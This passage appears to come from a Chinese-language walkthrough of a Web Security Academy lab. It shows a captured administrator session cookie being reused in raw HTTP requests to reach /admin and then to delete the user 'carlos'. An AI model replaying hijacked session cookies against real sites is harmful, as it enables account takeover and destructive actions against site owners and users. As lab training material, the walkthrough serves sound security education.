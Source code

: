 ```bash
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=hTi7sNuudeR99YHcsm3l3xa3zKDAWqEB; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

[![](assets/1705287960-fd2632bfc61d11f10099652e8f263454.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104051-d5e64e34-b02a-1.png)  
Step 3：随后我们直接访问复制会话 cookie 并使用它发送以下请求

```bash
GET /admin HTTP/2
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
Cookie: session=hTi7sNuudeR99YHcsm3l3xa3zKDAWqEB
```

[![](assets/1705287960-1c742cbbead6e23bef9d1c7e43bb08bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104118-e60c45ca-b02a-1.png)

Step 4：从上面我们可以看到成功利用 admin 的会话进入到控制面板中去，随后我们继续使用获取到的会话进行用户的删除操作

```bash
GET /admin/delete?username=carlos HTTP/2
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
Cookie: session=hTi7sNuudeR99YHcsm3l3xa3zKDAWqEB
```

